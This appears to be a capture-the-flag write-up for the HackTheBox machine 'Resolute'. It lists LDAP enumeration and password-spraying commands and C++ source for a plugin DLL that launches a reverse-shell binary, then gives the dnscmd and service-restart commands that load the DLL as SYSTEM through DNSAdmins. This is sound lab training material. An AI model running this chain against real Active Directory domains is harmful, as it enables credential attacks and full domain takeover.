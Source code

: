 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/0fZp5exCi18/0.jpg
layout: post
media_subpath: /assets/posts/2020-05-30-resolute-hackthebox
tags:
- active directory
- dll
- dnsadmins
- ldap
- password spraying
title: Resolute @ HackTheBox
---
```


Resolute is a 30-point Windows machine on HackTheBox that involves enumerating LDAP, Password Spraying, and using the DNSAdmins group to register a custom plugin DLL which allows us to execute code as SYSTEM.

{% youtube 0fZp5exCi18 %}

## Notes

**Windapsearch**

```
windapsearch --dc resolute.htb -m users
windapsearch --dc resolute.htb -m users --full
windapsearch --dc resolute.htb -m users --attrs description
windapsearch --dc resolute.htb -m users --attrs sAMAccountName | grep sAMAccountName | cut -d " " -f2 | tee users.txt
```

<https://github.com/ropnop/windapsearch>

**Kerbrute**

```
kerbrute passwordspray -d megabank.local --dc resolute.htb users.txt 'Welcome123!'
```

<https://github.com/ropnop/kerbrute>

**DNSAdmins [Exploit](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)**

```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        WinExec("C:\\programdata\\xc_10.10.14.4_1337.exe", 0);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

```
dnscmd resolute /config /serverlevelplugindll c:\programdata\xct.dll
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

---

Thanks [egre55](https://twitter.com/egre55) for creating this fun box!